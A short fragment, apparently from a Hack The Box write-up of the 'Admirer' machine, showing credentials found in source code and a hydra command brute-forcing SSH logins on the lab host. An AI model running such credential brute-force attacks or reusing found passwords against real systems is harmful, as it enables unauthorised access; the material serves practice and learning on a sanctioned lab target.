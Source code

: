 ![](2021-02-07-17-48-31.png)

$username = "waldo";
$password = "&<h5b~yK3F#{PaPB&dA}{H>";


kali@kali:~/htb/boxes/admirer/10.10.10.187$ hydra -t 1 -v -I -L users.txt -P passwords.txt ssh://10.10.10.187 
Hydra v9.2-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
